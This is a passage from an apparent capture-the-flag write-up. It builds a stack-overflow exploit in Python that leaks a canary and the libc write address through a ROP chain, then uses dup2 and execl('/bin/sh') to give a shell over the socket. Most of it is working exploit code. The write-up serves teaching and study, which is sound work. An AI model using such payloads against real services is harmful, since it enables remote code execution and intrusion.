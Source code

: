 ```lang-python line-numbers 
                p(4), # bytes to read
                "\n"]

    leak_payload = "".join(leak_payload)
    ss.send(leak_payload)
    leak = ss.recv(4)
    ss.close()
    return struct.unpack("<I", leak)[0]
```

In this case we use a ROP chain that calls "write" and reads 4 bytes from the GOT offset where write@libc is stored and send it to the socket fd.

![](/images/octopress/angrybird-9.png)

Now lets find out the offset between "write" and "dup2" in libc:

![](/images/octopress/angrybird-10.png)

Cool, so we now can call **dup2** to redirect the standard output and input to the socket, run our shell and interact with it. The payload looks like:

```lang-python line-numbers 
(canary, ebp, eip) = get_canary(ip, port)

write_addr = leak_address(ip, port, canary, ebp, 0x804b040, socketfd)

dup2_write_offset = 0x7d0
dup2_addr = write_addr + dup2_write_offset

print "[+] Leaked write address %#x" % write_addr
print "[+] Got dup2 address %#x" % dup2_addr

payload =   ["A"*10,
            p(canary),
            "B"*8,
            p(ebp),
            p(dup2_addr),
            p(0x080495be), # pop, pop, ret
            p(socketfd),  # fd 4
            p(0),  # fd 0
            p(dup2_addr),
            p(0x080495be), # pop, pop, ret
            p(socketfd),  # fd 4
            p(1),  # fd 1
            p(dup2_addr),
            p(0x080495be), # pop, pop, ret
            p(socketfd),  # fd 4
            p(2),  # fd 2
            p(0x08048c62), # call execl("/bin/sh")
            "\n"]
```
